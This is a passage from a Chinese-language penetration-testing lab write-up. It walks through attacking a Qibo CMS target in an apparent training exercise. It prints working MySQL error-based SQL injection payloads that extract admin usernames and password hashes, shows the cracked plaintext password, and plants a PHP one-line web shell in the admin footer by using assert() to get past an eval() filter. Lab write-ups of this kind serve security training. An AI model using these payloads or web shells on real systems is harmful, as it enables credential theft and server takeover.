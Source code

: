 ![sqli-2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/sqli-2.png)

以上 payload 在漏洞报告的基础上稍作修改，否则输出不了完整的密码哈希。

关于 SQL 报错注入的可利用函数较多，本题选用了 [`extractvalue()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_extractvalue) 函数：

```sql
TB_pre=qb_members where 1 and extractvalue(1,concat(0,(select concat(0x7e,username,password) from qb_members limit 1)))-- a
```

也可以选用 [`updatexml()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_updatexml) 函数：

```sql
TB_pre=qb_members where 1 and updatexml(1,concat(0,(select concat(0x7e,username,password) from qb_members limit 1)),0)-- a
```

以下是在[倾旋](http://payloads.online/)的公开课中总结出来的 [MySQL](https://www.mysql.com/) 数据库常用十大报错函数，建议去官方文档查阅每个函数的用法，多看多练，熟能生巧：

![error-function-1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/error-function-1.png)

![error-function-2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/error-function-2.png)

最后利用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 对密码哈希值解密，得到密码明文为 `whoami!@#123`：

![password](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/password.png)

# 0x02 获取目标服务器 1 管理员桌面的 FLAG 文件信息

获取了管理员权限，相当于完成了 getshell 的一半。随便搜搜可发现许多用于齐博 CMS getshell 的漏洞，下面选取两个文件写入漏洞进行复现。

## 后台频道页版权信息写入木马

第一个漏洞涉及两个操作：一是在网页底部版权信息中写入一句话木马，二是创建频道静态化页面。漏洞报告中未给出审计过程，本人对此组合拳甚是佩服，详情可参考：

> [齐博cms最新后台getshell](http://0day5.com/archives/1046/)

先搜索到齐博 CMS 的默认登录后台为 `/admin/index.php`，遂尝试访问，发现后台路径确实没修改。再用账号 `admin` 与密码 `whoami!@#123` 登录后台：

![login-back](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/login-back.png)

依次点击 **系统功能 -> 全局参数设置**，在 **网页底部版权信息** 中写入一句话木马 `<?php @assert($_POST['cmd']); ?>` 后保存设置：

![copyright](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/copyright.png)

这里为什么不用传统的一句话木马 `<?php @eval($_POST['cmd']); ?>` 呢？因为 CMS 对 `eval()` 函数进行了过滤，会将其转变成 `eva l()`：

![copyright-fail](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-pentest-note/copyright-fail.png)

所以此处能用 `assert()` 函数写入木马，也体现了 CMS 的写入过滤不完全。接着点击 **系统功能 -> 频道独立页管理 -> 添加频道页**，在 **频道页名字** 处填上任意字符（此处以 `sqli` 为例），在 **静态文件名** 处必须填上 `.php` 文件名，否则菜刀连接不上（此处以 `sqli.php` 为例）：
